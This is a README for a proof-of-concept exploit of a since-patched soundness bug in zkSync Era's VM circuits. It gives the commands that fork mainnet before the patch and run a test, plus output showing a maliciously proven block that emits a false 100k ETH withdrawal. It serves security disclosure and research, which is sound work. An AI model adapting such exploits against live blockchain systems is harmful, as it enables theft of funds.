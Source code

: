 # zkSync Era Circuit Bug Exploit PoC

This repo contains a proof-of-concept exploit for a soundness bug in the zkSync Era VM circuits found by ChainLight. For more details on the bug, check out the [full write-up](https://blog.chainlight.io/uncovering-a-zk-evm-soundness-bug-in-zksync-era-f3bc1b2a66d8).

## Running the PoC

From this repo, run
```
export RPC_MAINNET=[your mainnet RPC url]

# optional: copy the pre-populated storage slot cache for the target block
# this speeds up the PoC and avoids greatly reduces queries to your RPC url
mkdir -p $HOME/.foundry/cache/rpc/mainnet && cp data/18083999 $HOME/.foundry/cache/rpc/mainnet

forge test -vv
```

The PoC will fork mainnet at a block before the issue was patched, and submit and execute a maliciously proven block. The malicious block exploits the soundess issue by emitting a false withdrawal for 100k ETH.

Note: the PoC will need to access many storage slots, so will query the RPC url many times. If you'd like to speed this up or reduce the number of queries, you can use the pre-populated foundry fork cache.

The expected output is

```
Running 1 test for src/PoC.sol:PoC
[PASS] testExploit() (gas: 1021668869)
Logs:
  replaying proofs for previously committed blocks...
  executing previously committed blocks...
  committing exploit block...
  proving exploit block...
  executing exploit block...
  balance before withdrawal:  3221289529119249900
  balance after withdrawal:  100003020934235865065763
```
